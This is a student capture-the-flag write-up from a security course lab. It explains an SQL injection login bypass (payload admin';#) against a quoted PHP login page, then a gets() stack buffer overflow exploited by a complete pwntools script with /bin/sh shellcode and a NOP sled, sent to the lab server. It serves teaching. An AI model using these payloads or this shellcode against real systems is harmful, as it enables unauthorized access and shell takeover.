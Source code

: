# Week 8: CTF

## Goal

> Explore injection vulnerabilities.

### Challenge 1

> First we started by checking <http://ctf-fsi.fe.up.pt:5003/> and explore the page.

![initial page](../docs/initial.png)

> It is a simple web page that allows the user to login inserting a username and a password.
>
> We can try to use SQL injection to login even though we don't know the password. To see if we can perform SQL injection we must analyze the page code :

```php
$username = $_POST['username'];
               $password = $_POST['password'];
               
               $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
                                     
               if ($result = $conn->query($query)) {
                                  
                  while ($data = $result->fetchArray(SQLITE3_ASSOC)) {
                    $_SESSION['username'] = $data['username'];
           
                    echo "<p>You have been logged in as {$_SESSION['username']}</p><code>";
                    include "/flag.txt";
                    echo "</code>";

                 }
```

> The vulnerabilty is on this line :

```php
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

> We can insert on the username text to ignore the password and the query will just run to search for the username admin. The text that we will need to insert into the username will be something that will comment the password part like " admin';# " and in the password we can input anything because it will be commented :

![php with our input](../docs/login.png)

> As you can see above, it will just perform a simple query finding a user with the name admin and because it will return that user it will enter the if statement and we will be logged in and able to see the flag:

![after login](../docs/logged_in.png)

### Challenge 2

> First we started by running checksec in our program to see it´s protections.

```bash
 /home/seed/Documents/CTF/semana8/desafio2/program'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

> We can see that PIE is enabled which means that exists memory address randomization not allowing us to, like in challenges before, discover memory positions of variables and reuse them later. It is important to notice that NX is disabled which means that writable memory can be executed. This will be important for the exploit that we will use.

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[100];

    printf("Try to control this program.\n");
    printf("Your buffer is %p.\n", buffer);
    printf("Give me your input:\n");
    fflush(stdout);
   
    gets(buffer); // this line has the vulnerability
    
    return 0;
}
```

> Now analysing the source code we see that the vulnerability is in the gets function because that function reads bytes from stdin until a character of termination is found. Our buffer only has size of 100 bytes so we can with gets write more than that and therefore create a buffer overflow.
>
> Exploiting gets() we can rewrite the return address to a place in memory where we have a large payload of shellcode and NOPs. If our code jump to the shellcode a shell will be launched and then we can execute:

```bash 
cat flag.txt
```

> The line bellow is very important because it will tell us where the buffer is located in memory instead of us having to guess.

```c
printf("Your buffer is %p.\n", buffer);
```

> We used the shellcode of the week5 task and like in the other buffer overflows challenges we needed to discover the offset between the ebp and the buffer in memory.
>
> We determined since there were no more variables that this offset will be 104 therefore the return address is 108 bytes from the beggining of the buffer.

```python
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
else:    
    p = remote("ctf-fsi.fe.up.pt", 4001)

buff_adr = p.recvline_contains(b'Your buffer is').decode('utf-8')[17:25]

print("Buff:" + buff_adr)

buff_bytes = bytearray.fromhex(buff_adr)
buff_bytes.reverse()

p.recvuntil(b':')

offset = 108 #104 + 4

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80"

input = shellcode + b'\x90' * 81 + buff_bytes
p.sendline(input)
p.interactive()
```

> First we use p.recvline_contains to read from the output of the buffer memory position, then we transform that into a bytearray and then we reverse it because of little-endian.
> For our input we put the shellcode followed by 81 NOP's because 108 - size(shellcode) = 81 then we put the buffer memory address so that the function returns to the beggining of the buffer to then go to the shellcode and launch a shell.
>
> With the shell, to obtain the flag we just do:

```bash
cat flag.txt
```